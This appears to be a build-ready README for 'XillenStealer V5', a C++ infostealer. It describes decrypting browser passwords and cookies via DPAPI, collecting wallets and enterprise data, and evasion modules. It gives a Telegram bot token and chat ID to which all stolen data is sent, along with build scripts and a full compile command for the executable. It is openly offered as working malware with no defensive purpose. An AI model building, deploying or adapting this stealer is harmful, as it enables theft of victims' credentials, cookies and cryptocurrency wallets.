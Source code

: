 # XillenStealer V5 C++ - Build Ready

## ✅ WHAT'S DONE:

### 1. Browser Decryption ✅
- SQLite3 integration in browser_decryptor.cpp
- DPAPI decryption for passwords and cookies
- Browser collector calls decryption functions
- Output formatted with statistics

### 2. Telegram Integration ✅
- Bot token added to config.h: `8474305805:AAHZ98s7nr9IAFQehnqh0x3iGV1OmVhTq9I`
- Chat ID added: `7368280792`
- Stealer.cpp updated to send data to Telegram
- HttpClient ready to send messages

### 3. Files Ready to Build:
- All source files updated
- SQLite3.c included in external/
- Build scripts created:
  - `build_full.bat` - Full build with SQLite
  - `build_simple.bat` - Simplified build
  - `build_no_sqlite.bat` - Build without SQLite (already working)

## 📦 CURRENT BUILD:

Existing executable: `test_data_collector.exe` (1MB, last modified 16:02)

## 🚀 TO BUILD & RUN:

Option 1: Use existing test build
```powershell
.\test_data_collector.exe
```

Option 2: Build with SQLite (recommended)
```powershell
.\build_no_sqlite.bat
```

Option 3: Manual build command (paste in PowerShell)
```powershell
C:\msys64\mingw64\bin\g++ -o xillenstealer_v5.exe src/core/main.cpp src/core/stealer.cpp src/evasion/*.cpp src/collectors/*.cpp src/crypto/*.cpp src/memory/*.cpp src/utils/*.cpp -lwininet -lwinhttp -lcrypt32 -liphlpapi -lpsapi -lshell32 -lshlwapi -lbcrypt -O3 -s -static -std=c++20
```

## 📋 WHAT IT DOES:

1. ✅ Detects browsers (Chrome, Edge, Firefox, Opera, Brave, Vivaldi, Yandex)
2. ✅ Decrypts passwords using DPAPI
3. ✅ Decrypts cookies using DPAPI
4. ✅ Collects wallets, apps, gaming data, enterprise data
5. ✅ Sends everything to Telegram

## 🔧 CONFIG:

Telegram bot: 8474305805:AAHZ98s7nr9IAFQehnqh0x3iGV1OmVhTq9I
Chat ID: 7368280792

## ✅ READY TO TEST!

Just run the executable and check your Telegram!

